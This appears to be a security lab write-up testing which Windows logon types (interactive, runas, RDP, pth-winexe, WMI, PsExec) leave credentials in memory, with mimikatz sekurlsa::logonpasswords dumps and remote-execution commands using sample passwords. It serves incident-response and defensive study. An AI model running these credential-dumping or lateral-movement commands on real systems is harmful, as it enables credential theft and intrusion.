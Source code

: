 ```yaml
---
description: >-
  This lab explores/compares when credentials are susceptible to credential
  dumping.
---
```


# Network vs Interactive Logons

Tested against Microsoft Windows 7 Professional 6.1.7601 Service Pack 1 Build 7601

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump \(using mimikatz\) on the victim system to see what we can get before we start logging on to the victim with other methods. To test this, the victim system was rebooted and no attempts to login to the system were made, except for the interactive logon to get access to the console:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test1.png)

## Interactive Logon \(2\) via runas and Local Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
runas /user:low cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test2.png)

## Interactive Logon \(2\) via runas and Domain Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
runas /user:spot@offense cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test3.png)

## New Credentials \(9\) via runas with /netonly

```text
runas /user:low /netonly cmd
```

Event logs suggest the logon of type 9 and also for the user `mantvydas`, although we requested to logon as the user `low`:

![](../../.gitbook/assets/pwdump-runas-netonly.png)

Logon type 9 means that the any network connections originating from our new process will use the new credentials, which in our case are credentials of the user `low`. These credentials, however still get cached on the victim system:

![](../../.gitbook/assets/pwdump-runas-netonly-dump.png)

## Network Logon \(3\) with Local Account

Imagine an Incident Responder is connecting to a victim system using that machine's local account remotely to inspect it for a compromise using pth-winexe:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine an Incident Responder is connecting to a victim system using a privileged domain account remotely to inspect it for a compromise using pth-winexe, a simple SMB mount or WMI:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:

![](../../.gitbook/assets/pwdum-test5.png)

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test6.png)

Note that any remote logon with a graphical UI is logged as logon event type 10 and the credentials stay on the logged on system:

![](../../.gitbook/assets/pwdump-logon10.png)

## PsExec From An Elevated Prompt

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
PS C:\tools\PSTools> whoami.exe
offense\spot

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-psexec-no-atlernate-credentials.png)

Mimikatz shows no credentials got stored in memory for `offense\spot`

Note how all the logon events are of type 3 - network logons and read on to the next section.

## PsExec + Alternate Credentials

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
.\PsExec64.exe \\10.0.0.2 -u offense\spot -p password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-psexec-supplied-creds.png)

Looking at the event logs, a logon type 2 \(interactive\) is observed amongst the network logon 3, which explains why credentials were successfully dumped in the above test:

![](../../.gitbook/assets/pwdump-psexec-interactive-logon.png)

![](../../.gitbook/assets/pwdump-psexec-eventlog.png)

## Observations

Network logons do not get cached in memory except for when using `PsExec` with alternate credentials specified via the `-u` switch. 

Interactive and remote interactive logons do get cached and can get easily dumped with Mimikatz.

Inspired by:

{% embed data="{\"url\":\"https://digital-forensics.sans.org/blog/2012/02/21/protecting-privileged-domain-account-safeguarding-password-hashes\",\"type\":\"link\",\"title\":\"SANS Digital Forensics and Incident Response Blog \| Protecting Privileged Domain Accounts: Safeguarding Password Hashes \| SANS Institute\",\"description\":\"SANS Digital Forensics and Incident Response Blog blog pertaining to Protecting Privileged Domain Accounts: Safeguarding Password Hashes\",\"icon\":{\"type\":\"icon\",\"url\":\"https://digital-forensics.sans.org/favicon.ico\",\"aspectRatio\":0}}" %}

